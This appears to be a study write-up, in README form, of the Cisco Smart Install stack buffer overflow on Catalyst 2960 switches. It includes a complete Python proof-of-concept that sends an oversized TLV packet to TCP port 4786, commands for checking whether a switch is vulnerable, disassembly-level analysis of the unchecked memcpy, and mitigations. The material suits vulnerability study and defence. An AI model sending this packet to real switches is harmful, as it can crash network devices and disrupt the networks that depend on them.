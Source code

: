 ### INTRODUCTION
why is C2960 targeted by attackers/security researchers?
* affordable and wide spread model

what is the main characteristic of C2960 to be easy to exploit?
* there're features listed online but one important feature of Cisco IOS is its behavior in case an exception condition occurs if something goes wrong, Cisco IOS reboots a device

### REVISION
what is buffer?
* buffer is a small memory allocated specifically for input, used when a process or a program is executed

what is buffer overflow attack?
* when attacker enters arbitrary input to buffer, long enough to overrun the buffer's boundary and overwrite adjacent memory location
* stack based buffer overflow in short is also known as buffer overflow

why do buffer overflow take place?
* mostly due to bad programming written, use of unsafe c function and unsanitized input

what is watchdog?
* a timer which automatically reboot the system if it detects some programs are not working




### SETUP
`Host A         <-----------------> C2960 SI PoE 24 Switch (c2960-lanlitek9-mz.122-58.SE2.bin)`<br/>
`192.168.200.2      <----------------->  192.168.200.1`

### HOW TO CHECK IF SWITCH IS VULNERABLE
`SW>show vstack config`<br/>
`SW>show tcp brief all`




### smi_ibc_init_discovery_BoF.py.PY BREAKDOWN

    import socket 
    import struct 
    from optparse import OptionParser 

    # Parse the target options 
    parser = OptionParser() 
    parser.add_option("-t", "--target", dest="target", help="Smart Install Client", default="192.168.1.1")  
    parser.add_option("-p", "--port", dest="port", type="int", help="Port of Client", default=4786)  
    (options, args) = parser.parse_args() 

    def craft_tlv(t, v, t_fmt='!I', l_fmt='!I'): 
      return struct.pack(t_fmt, t) + struct.pack(l_fmt, len(v)) + v 

    def send_packet(sock, packet): 
      sock.send(packet)   

    def receive(sock):  
      return sock.recv() 

    if __name__ == "__main__": 

    print "[*] Connecting to Smart Install Client ", options.target, "port", options.port 

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    con.connect((options.target, options.port)) 

    payload = 'BBBB' * 44  
    shellcode = 'D' * 2048 

    data = 'A' * 36 + struct.pack('!I', len(payload) + len(shellcode) + 40) + payload 

    tlv_1 = craft_tlv(0x00000001, data)  
    tlv_2 = shellcode 

    hdr =  '\x00\x00\x00\x01'                                   # msg_from
    hdr += '\x00\x00\x00\x01'                                   # version
    hdr += '\x00\x00\x00\x07'                                   # msg_hdr_type
    hdr += struct.pack('>I', len(data))                         # data_length

    pkt = hdr + tlv_1 + tlv_2 

    print "[*] Send a malicious packet"  
    send_packet(con, pkt)



what is the objective of the script?
* the <SMI IBC Server Process> process contains a Smart Install Client implementation code
* the Smart Install Client starts a server on the TCP(4786) port (opened by default) to interact with the Smart Install Director
* a specially crafted malicious message ibd_init_discovery_msg for the stack-based buffer overflow occurs

what is struct.park(function)?
* it packs a list of values into a string representation of the specified type
* !'I' --> format string for network also means big-endian
* fmt ---> format string

what is tlv?
* encoding scheme used within the data communication protocol
* for data formatting. when we want to send data to receiver, we prepare a TLV package that contains Tag-Length-Value datas
  1. data type/tag
  2. data length/size
  3. data value/content of the data
  
* format string for big-endian ---> (>I) 
* 4+4+4+4=16bytes for hdr ----> header which consists of |msg-from|version|msg_hdr-type|data_length|
* 36+4+(4*44)=216bytes  ---> TLV Data Value
* a single packet consists of | header (16 bytes)| TLV_1 (224 bytes)|TLV (2048 bytes) |


### CRAFTED PACKET STRUCTURE FROM THE SCRIPT
![packet structure](https://user-images.githubusercontent.com/23307275/39845863-de67a538-542a-11e8-9c23-7d5b38e13e75.PNG)


### WIRESHARK PACKET SNIFFING
![wireshark1](https://user-images.githubusercontent.com/23307275/39845865-dec1d724-542a-11e8-9ece-42d45e9f5526.PNG)

<br/>

![wireshark2](https://user-images.githubusercontent.com/23307275/39845860-ddc64f62-542a-11e8-90f1-d5e0707524b8.PNG)


### FUNCTION OF EXPOLIT IS LOCATED
* smi_ibc_handle_ibd_init_discovery_msg, SUB_B258CC

![overview](https://user-images.githubusercontent.com/23307275/39845857-d822a452-542a-11e8-9c19-e39ffbe45655.PNG)
![sub_routine](https://user-images.githubusercontent.com/23307275/39845855-d7c60620-542a-11e8-8bf1-408e90fcfcf3.PNG)
![r6](https://user-images.githubusercontent.com/23307275/39845864-de93c1fe-542a-11e8-922d-35b208c18658.PNG)

  R3: ptr to the tlv_type <br/>
  R4: length of tlv <br/>
  R5: ptr to the 16 bytes header <br/>
  R6: ptr to the TLV data <br/>

### LOGIC AND THE EXACT PLACE OF EXPLOIT

Focus 1:
``if (tlv_type == 1) {``
  ``#read tlv_length information``
``}``

Focus 2:
`if(tlv_length != 0) {`
  `#size = tlv_length     <-----(LOOPHOLE) NO VALIDATION CHECK`
`}

Focus 3:
`if (size != 0) {`
 `do {`
   `memcpy (src, dest, size);`
   `size-=1;`
 `}while (size!=0)`
`}`

* size is saved as a parameter for later memcpy (src, dest, size)
* tlv-type number assignment, http://irl.cs.ucla.edu/~cawka/spec/types.html
* size is the number of bytes to be copied
* fetch and copy data without verification
* just copy without checking if the size of the data exceed the allocated size of buffer <---- buffer overflow will occurs

### BEFORE AND AFTER BUFFER OVERFLOW IN LOW-LEVEL
![from the code logic](https://user-images.githubusercontent.com/23307275/39845862-de324c8a-542a-11e8-9df2-02a10f7cfb7d.PNG)

  R3 is the buffer length of 0x58 #dst <br/>
  R4 is the content of the TlL data #scr <br/>
  R5 is the tlv length #size <br/>

  memcpy (src, dest, size)

* 0xd8 (216 bytes) to be copied to the allocated 0x58 (88 bytes) buffer  <--- buffer overflow occurs
* R4 (data content) to R3 (buffer) do while the size is not 0 (referenced back to focus 1)

![before overflow](https://user-images.githubusercontent.com/23307275/39845861-de072bfe-542a-11e8-8e33-585ee1d6aace.PNG)

* the figure above shows that the contents of 0xd8 bytes starting from 0x318e890 will be copied into the buffers starting from 0x3df24a8 in the stack frame.

<br/>
![after overflow](https://user-images.githubusercontent.com/23307275/39849799-a6205f1a-5440-11e8-9dd5-3886c3cb1da3.PNG)

* the above figure shows the contents of the function stack frame after the memcpy operation. The stack frame of this function is 0x58 bytes in size. After the function is overwritten by 0x42424242, the pointer of the execution code area is skipped resulting a buffer overflow situation. 

* the content of the register changes along with the CPU instructions
* register is a small set of data holding places that are part of the computer processor
* stack based buffer flow in this case
* conclude (summarize) the result of crash

### MIGITATIONS
1. no vstack command to disable the smart installed function (cannot be persistent, require reconfigure after reboot)
2. use ACL to filter traffic from tcp port 4786, or limit through Control Panel Policy (CoPP)
3. patch and upgrade
4. use new plug and play (Cisco Network Plug and Play) solution instead

### References
* https://embedi.com/blog/cisco-smart-install-remote-code-execution/
* https://www.anquanke.com/post/id/105473
